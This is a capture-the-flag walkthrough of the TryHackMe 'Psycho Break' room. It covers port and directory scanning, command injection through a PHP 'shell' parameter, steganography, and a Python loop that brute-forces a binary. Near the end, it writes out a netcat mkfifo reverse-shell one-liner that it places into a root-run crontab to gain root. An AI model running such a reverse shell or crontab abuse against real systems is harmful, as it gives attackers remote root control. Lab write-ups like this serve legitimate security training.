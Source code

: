# Psycho Break

[<img src=".Images/psycho.jpeg" height="150">](https://tryhackme.com/room/psychobreak)

*"Help Sebastian and his team of investigators to withstand the dangers that come ahead."* -[shafdo](https://tryhackme.com/p/shafdo)

1. [Scan/Enumeration](#scan/enumeration)
2. [Gain Shell](#gain-shell)
3. [Privilege Escalation](#privilege-escalation)

******

## [Scan/Enumeration]

We can start by doing an nmap scan.

`nmap -A -oN tartarus.nmap <ip>`

![psycho-1](.Images/psycho-1.png)

We can see that FTP, SSH and Apache http services are running. FTP doesn't allow anonymous login. So let's start by looking at the web server.

On the page that welcomes us, when we look at the source code, we will see the "/sadistRoom" directory. The sadist room will give us the key to locker room.

In locker room, we find a encoded text. I use a [cipher identifier](https://www.boxentriq.com/code-breaking/cipher-identifier) to find out what the text has been encrypted with.

![psycho-2](.Images/psycho-2.png)
![psycho-3](.Images/psycho-3.png)

Now we can access the map.

![psycho-4](.Images/psycho-4.png)

We see 4 different locations on the map. We have already finished with the first two. If you look at The Abandoned Room, you'll see that we need the keeper key to access it. We will reach this key via safe heaven.

At this point I tried a lot of things. I downloaded all the images on the site and tried to find something in them but I couldn't find anything.

If it's not in the images, I thought this should be a directory. To find the directory, I did a gobuster scan using the ["directory-list-2.3-medium.txt"](https://github.com/daviddias/node-dirbuster/blob/master/lists/directory-list-2.3-medium.txt).

`gobuster dir -u http://<IP>/SafeHeaven/ -w directory-list-2.3-medium.txt`

![psycho-5](.Images/psycho-5.png)

In this directory, we need to find the location of the image. We can use reverse image search. You can easily find the answer and get the keeper key.

We will meet Laura the Spiderlady in the Abandoned room. We will see a hint as we look at the source code. 

*"There is something called "shell" on current page maybe that'll help you to get out of here !!!"* 

We can try the word "shell" to give a parameter to the PHP file.

`http://<IP>/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls`

Yes, it is work. But we can only run the ls command. After trying a few alternatives, I use the "ls .." command to list a parent directory and it works. In the upper directory we see two directory or files encrypted with md5. One is the directory we are in, and the other we need to look to understand what it is.

![psycho-6](.Images/psycho-6.png)

We found "helpme.zip".

## [Gain Shell]

When we unzip the file, we will see a txt file and a jpg. The txt file says the key is in the Table.jpg. When we look at this jpg file with the "file" command, we see that it is actually a zip.

![psycho-7](.Images/psycho-7.png)

When you listen to the audio file, you will see that it has morse code. To decode this, I find an [audio morse decoder](https://morsecode.world/international/decoder/audio-decoder-adaptive.html) with a simple search.

![psycho-8](.Images/psycho-8.png)

I will use this word to extract files from "Joseph_Oda.jpg" with the steghide tool.

`steghide extract -sf Joseph_Oda.jpg`

![psycho-9](.Images/psycho-9.png)

Now we have the FTP information, we can try to login. In FTP server, we have two file. One ELF(executable) file and one dictionary file.

![psycho-10](.Images/psycho-10.png)

As it is understood, we will need to bruteforce the program file with the dictionary file we found. I will use the python language for this.

```
import os                                                                                                                                                                       
 
f = open('random.dic','r')
 
for i in f: 
    i = i.replace("\n","")
    result = os.popen(f"./program {i}").read()
    if "Incorrect" not in result:
        print(result)
        break
 
f.close()
```

![psycho-11](.Images/psycho-11.png)

Now we need decode this text. The cipher identifier I used before could not identify it. I have encountered this encryption before, I know it is related to the phone. After a few tries on a [decode site](https://www.dcode.fr/en), I find what I'm looking for. This is "Multi-tap Phone Cipher".

![psycho-12](.Images/psycho-12.png)

Now, we have some credentials. We can try these for SSH connection.

## [Privilege Escalation]

When I login a linux machine, I first check the SUID files and cronjobs. Here too I found something in /etc/crontab file.

![psycho-13](.Images/psycho-13.png)

We see that we have the authority to write to this file, which is run regularly with root authority. Let's get a reverse shell. I will use netcat.

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f`

![psycho-14](.Images/psycho-14.png)

`nc -nvlp <PORT>`

After waiting for a while, we will have root privilege.

![psycho-15](.Images/psycho-15.png)
